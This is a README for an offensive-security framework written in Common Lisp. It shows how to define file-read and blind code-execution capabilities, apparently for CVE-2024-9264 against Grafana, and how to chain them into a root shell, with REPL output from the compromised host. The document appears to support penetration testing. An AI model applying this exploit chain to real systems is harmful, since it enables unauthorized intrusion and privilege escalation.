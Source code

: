 # Grimoire

Grimoire is a collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation.

It also includes tools to make the implementation of exploit POCs easier.

## Screenshots

![image](https://github.com/user-attachments/assets/ea321379-a96f-40e6-a285-7cf5c9af0955)

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
$ git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
CL-USER> (ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
CL-USER> (in-package :grimoire)
```
    
## Concepts

- **Capability**: Created using `define-capability`. They expose some type of operation to the framework such as reading files, blind code execution or file uploads.

- **Recipes**: Created using `define-recipe`. They use the capabilities available to do interesting or useful operations on the system. For example, the recipe `download-all` allows the user to download all files in a given remote path if the capacity to execute code is available to Grimoire.
    
- **Derivations**: Created using `define-derivation`. They allow Grimoire to derive new capabilities from already implemented ones. For example, if you have both the read and blind execution capabilities, you will be able to derive the sighted execution through a derivation.
    
- **Loot**: Managed through the functions starting with `loot/*`. You can save loot by passing a key and a value, retrieve it by passing a key only or listing the loot available by calling the function without parameters.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `read-CVE-2024-9264` that reads files from the remote server:

```lisp
(define-capability :read read-CVE-2024-9264 (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (planning/query
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of functions that you can use to progress further, for example:

```lisp
GRIMOIRE> (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

GRIMOIRE> (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another capability to do blind execution of code:

```lisp
(define-capability :blind-exec blind-exec-CVE-2024-9264 (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current capabilities:
```lisp
GRIMOIRE> (capability/list)
(:READ :BLIND-EXEC)
```
    
Running `derivation/list` will yield:
```lisp
GRIMOIRE> (derivation/list)
[+] Derivation "LET-THERE-BE-LIGHT"
    Runnable? [YES] (needs :READ, :BLIND-EXEC)
    Needed?   [YES] (provides :EXEC)

[+] Derivation "CAT"
    Runnable? [NO] (needs :EXEC)
    Needed?   [NO] (provides :READ)
```
    
So lets run the first derivation in the REPL:
```lisp
GRIMOIRE> (derivation/run :let-there-be-light)
[+] Added new capability: :EXEC
```

So lets test it with the `fake-shell` recipe:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```

## Roadmap

In no particular order:

- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add write utilities to Grimoire.
- [x] Add execute utilities to Grimoire.
- [ ] Add a more precise way of expressing capabilities and not just `:read`, `:write` and `:execute`.
- [ ] Add a graph like representation of capabilities and how they can be chained together.
- [ ] Add a way to easily share capabilities with other users.
- [ ] Add some kind of database to store loot and other stuff.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing maybe.
- [x] Add a deployable binary for persistance.
